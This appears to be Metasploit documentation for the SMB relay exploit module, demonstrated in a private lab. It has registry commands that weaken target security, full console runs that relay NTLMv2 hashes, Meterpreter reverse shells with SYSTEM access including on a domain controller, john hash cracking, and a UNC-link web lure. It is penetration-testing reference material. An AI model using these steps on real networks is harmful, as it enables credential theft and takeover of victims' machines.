

## Vulnerable Application

This module supports running an SMB server which validates credentials, and then attempts to
execute a relay attack against the configured RHOSTS hosts.

Supports SMBv2, SMBv3, and captures NTLMv1 as well as NTLMv2 hashes.
SMBv1 is not supported - please see https://github.com/rapid7/metasploit-framework/issues/16261

## Verification Steps

### Machine setup

Note, for some targets you may require configuring `LocalAccountTokenFilterPolicy` to allow psexec:
```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Or uac, which requires a restart:
```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```

You may need to change the policy on hosts that you are relaying to https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing#policy-locations-for-smb-signing

This can be checked in powershell with:

```
PS > reg query HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v requiresecuritysignature

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
    requiresecuritysignature    REG_DWORD    0x0
```

Set the registry key value with:
```
reg add HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters /v requiresecuritysignature /t REG_DWORD /d 0 /f
```

The above also works on domain controllers, but you may also have to modify a group policy settings.

#### Lab setup

Example relaying between:

- Windows 7 <-> Metasploit framework <-> Windows 10

Where:

- Windows 7 = 192.168.123.22
- msfconsole = 192.168.123.1
- windows 10 = 192.168.123.4

Example lab diagram:



## Options

### RHOSTS

Target address range or CIDR identifier to relay to

### CAINPWFILE

A file to store Cain & Abel formatted captured hashes in. Only supports NTLMv1 Hashes.

### JOHNPWFILE

A file to store John the Ripper formatted hashes in. NTLMv1 and NTLMv2 hashes will be stored in separate files.
I.E. the filename john will produce two files, `john_netntlm` and `john_netntlmv2`.

### DOMAIN

The domain name used during SMB exchange.

### ACTION

Determines which of two actions smb_relay will use against the target. 
The default is to run `PSEXEC`, but can be changed to `CREATE_SMB_SESSION` to 
open an interactive SMB session against the target instead of running
psexec.

### TIMEOUT

Seconds that the server socket will wait for a response after the client has initiated communication.
This only applies to the server waiting on the client to respond with [a type3 message](http://davenport.sourceforge.net/ntlm.html#theType3Message).

## Scenarios

### Net use example

```
msf6 exploit(windows/smb/smb_relay) > run
[*] Exploit running as background job 12.
[*] Exploit completed, but no session was created.

msf6 exploit(windows/smb/smb_relay) > [*] Started reverse TCP handler on 192.168.123.1:4444
[*] JTR hashes will be split into two files depending on the hash format.
[*] /Users/user/Documents/code/metasploit-framework/relay_results_netntlm.txt for NTLMv1 hashes.
[*] /Users/user/Documents/code/metasploit-framework/relay_results_netntlmv2.txt for NTLMv2 hashes.

[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.
```

If the target machine connects:

```
net use \\192.168.123.1\foo /u:admin password123
```

msfconsole output with new session opened:

```
msf6 exploit(windows/smb/smb_relay) > [*] New request from 192.168.123.22
[*] Received request for \admin
[*] Relaying to next target smb://192.168.123.4:445
[+] identity: \admin - Successfully authenticated against relay target smb://192.168.123.4:445
[SMB] NTLMv2-SSP Client     : 192.168.123.4
[SMB] NTLMv2-SSP Username   : \admin
[SMB] NTLMv2-SSP Hash       : admin:::ecedb28bc70302ee:a88c85e87f7dca568c560a49a01b0af8:0101000000000000b53a334e842ed8015477c8fd56f5ed2c0000000002001e004400450053004b0054004f0050002d004e0033004d00410047003500520001001e004400450053004b0054004f0050002d004e0033004d00410047003500520004001e004400450053004b0054004f0050002d004e0033004d00410047003500520003001e004400450053004b0054004f0050002d004e0033004d00410047003500520007000800b53a334e842ed80106000400020000000800300030000000000000000000000000300000174245d682cab0b73bd3ee3c11e786bddbd1a9770188608c5955c6d2a471cb180a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100320033002e003100000000000000000000000000

[*] Received request for \admin
[*] identity: \admin - All targets relayed to
[*] 192.168.123.4:445 - Selecting PowerShell target
[*] Received request for \admin
[*] identity: \admin - All targets relayed to
[*] 192.168.123.4:445 - Executing the payload...
[+] 192.168.123.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 192.168.123.4
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.4:52771 ) at 2022-03-02 22:24:42 +0000

msf6 exploit(windows/smb/smb_relay) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DESKTOP-N3MAG5R  192.168.123.1:4444 -> 192.168.123.4:52771  (192.168.123.4)
```

Multiple targets can be relayed to:

```
msf6 exploit(windows/smb/smb_relay) > set RHOSTS 192.168.123.4 192.168.123.25
RHOSTS => 192.168.123.4 192.168.123.25
msf6 exploit(windows/smb/smb_relay) >
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] JTR hashes will be split into two files depending on the hash format.
[*] /Users/user/Documents/code/metasploit-framework/relay_results_netntlm.txt for NTLMv1 hashes.
[*] /Users/user/Documents/code/metasploit-framework/relay_results_netntlmv2.txt for NTLMv2 hashes.

[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.
[*] New request from 192.168.123.22
[*] Received request for \admin
[*] Relaying to next target smb://192.168.123.4:445
[+] identity: \admin - Successfully authenticated against relay target smb://192.168.123.4:445
[SMB] NTLMv2-SSP Client     : 192.168.123.4
[SMB] NTLMv2-SSP Username   : \admin
[SMB] NTLMv2-SSP Hash       : admin:::73fb3d1481eccfbb:84c35ac7c72c4b70d3f13775bb2a90d1:01010000000000006192a6b2842ed8014958d1e91daaa4160000000002001e004400450053004b0054004f0050002d004e0033004d00410047003500520001001e004400450053004b0054004f0050002d004e0033004d00410047003500520004001e004400450053004b0054004f0050002d004e0033004d00410047003500520003001e004400450053004b0054004f0050002d004e0033004d004100470035005200070008006192a6b2842ed80106000400020000000800300030000000000000000000000000300000174245d682cab0b73bd3ee3c11e786bddbd1a9770188608c5955c6d2a471cb180a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100320033002e003100000000000000000000000000

[*] 192.168.123.4:445 - Selecting PowerShell target
[*] Received request for \admin
[*] Relaying to next target smb://192.168.123.25:445
[*] 192.168.123.4:445 - Executing the payload...
[+] identity: \admin - Successfully authenticated against relay target smb://192.168.123.25:445
[SMB] NTLMv2-SSP Client     : 192.168.123.25
[SMB] NTLMv2-SSP Username   : \admin
[SMB] NTLMv2-SSP Hash       : admin:::e0e71bdc7b67cc9a:e5ad5b725a87e9febc3d37fb28823474:01010000000000007092b1b2842ed801af55d6beafdb9ef600000000020008004100440046003300010006004400430033000400140061006400660033002e006c006f00630061006c0003001c006400630033002e0061006400660033002e006c006f00630061006c000500140061006400660033002e006c006f00630061006c00070008007092b1b2842ed80106000400020000000800300030000000000000000000000000300000174245d682cab0b73bd3ee3c11e786bddbd1a9770188608c5955c6d2a471cb180a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100320033002e003100000000000000000000000000

[*] Received request for \admin
[*] identity: \admin - All targets relayed to
[*] 192.168.123.25:445 - Selecting PowerShell target
[*] Received request for \admin
[*] identity: \admin - All targets relayed to
[*] 192.168.123.25:445 - Executing the payload...
[+] 192.168.123.4:445 - Service start timed out, OK if running a command or non-service executable...
[+] 192.168.123.25:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 192.168.123.4
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.123.4:52773 ) at 2022-03-02 22:27:31 +0000
[*] Sending stage (175174 bytes) to 192.168.123.25
[*] Meterpreter session 4 opened (192.168.123.1:4444 -> 192.168.123.25:61055 ) at 2022-03-02 22:27:32 +0000

msf6 exploit(windows/smb/smb_relay) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DESKTOP-N3MAG5R  192.168.123.1:4444 -> 192.168.123.4:52773  (192.168.123.4)
  4         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DC3              192.168.123.1:4444 -> 192.168.123.25:61055  (192.168.123.25)
```

Crack the password:

```
$ john ./relay_results_netntlmv2.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 8 password hashes with 8 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Remaining 6 password hashes with 6 different salts
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (admin)
password123      (admin)
6g 0:00:00:00 DONE (2022-03-02 17:30) 600.0g/s 204800p/s 1228Kc/s 1228KC/s p4$$w0rd..queen
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

### UNC in Websites Vector

One way to coax a user into creating an SMB connection is to embed it in a website

First, create the website (we're using Kali for this) with the following content:

```html
<html>
  <head>
    <title>UNC Example</title>
  </head>
  <body>
    
  </body>
</html>
```

This file, for the example is in `/var/www/html/unc.html`.

Also of note, this could be done via XSS or other injection technique.

Start the webserver:

```
python3 -m http.server
```

Server:

```
msf6 exploit(windows/smb/smb_relay) > set JOHNPWFILE ./relay_results.txt
JOHNPWFILE => ./relay_results.txt
msf6 exploit(windows/smb/smb_relay) > set RHOSTS 192.168.123.4 192.168.123.25
RHOSTS => 192.168.123.4 192.168.123.25
msf6 exploit(windows/smb/smb_relay) > run
[*] Exploit running as background job 9.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.
msf6 exploit(windows/smb/smb_relay) > [*] New request from 192.168.123.22
[*] Received request for WIN-4PK8J9RF052\alan
[*] Relaying to next target smb://192.168.123.4:445
[+] identity: WIN-4PK8J9RF052\alan - Successfully authenticated against relay target smb://192.168.123.4:445
[SMB] NTLMv2-SSP Client     : 192.168.123.4
[SMB] NTLMv2-SSP Username   : WIN-4PK8J9RF052\alan
[SMB] NTLMv2-SSP Hash       : alan::WIN-4PK8J9RF052:5ccf36babf3de985:f93284935d8bdde72e6eb7fe28915463:010100000000000011621cd27d2ed801082eb310b1a52fee0000000002001e004400450053004b0054004f0050002d004e0033004d00410047003500520001001e004400450053004b0054004f0050002d004e0033004d00410047003500520004001e004400450053004b0054004f0050002d004e0033004d00410047003500520003001e004400450053004b0054004f0050002d004e0033004d0041004700350052000700080011621cd27d2ed80106000400020000000800300030000000000000000000000000300000174245d682cab0b73bd3ee3c11e786bddbd1a9770188608c5955c6d2a471cb180a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100320033002e003100000000000000000000000000

[*] Received request for WIN-4PK8J9RF052\alan
[*] Relaying to next target smb://192.168.123.25:445
[-] Failed running psexec against target  - RubySMB::Error::UnexpectedStatusCode The server responded with an unexpected status code: STATUS_ACCESS_DENIED
[+] identity: WIN-4PK8J9RF052\alan - Successfully authenticated against relay target smb://192.168.123.25:445
[SMB] NTLMv2-SSP Client     : 192.168.123.25
[SMB] NTLMv2-SSP Username   : WIN-4PK8J9RF052\alan
[SMB] NTLMv2-SSP Hash       : alan::WIN-4PK8J9RF052:a6c2d677ac9a4ba8:8083d175289f940412f70dba01c6460a:0101000000000000322924d27d2ed8012b7d1e1a0aaaf0dc00000000020008004100440046003300010006004400430033000400140061006400660033002e006c006f00630061006c0003001c006400630033002e0061006400660033002e006c006f00630061006c000500140061006400660033002e006c006f00630061006c0007000800322924d27d2ed80106000400020000000800300030000000000000000000000000300000174245d682cab0b73bd3ee3c11e786bddbd1a9770188608c5955c6d2a471cb180a001000000000000000000000000000000000000900240063006900660073002f003100390032002e003100360038002e003100320033002e003100000000000000000000000000

[*] Received request for WIN-4PK8J9RF052\alan
[*] identity: WIN-4PK8J9RF052\alan - All targets relayed to
[-] Failed running psexec against target  - RubySMB::Error::UnexpectedStatusCode The server responded with an unexpected status code: STATUS_ACCESS_DENIED
```

Client:

```
Browse to the webpage.  This example is on Windows 7 with Internet Explorer.
```

Crack the password:

```
$ john ./relay_results_netntlmv2.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123                (alan)
password123                (alan)
2g 0:00:00:00 DONE (2022-03-02 16:42) 8.695g/s 1219Kp/s 2439Kc/s 2439KC/s beebers..Whisper
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
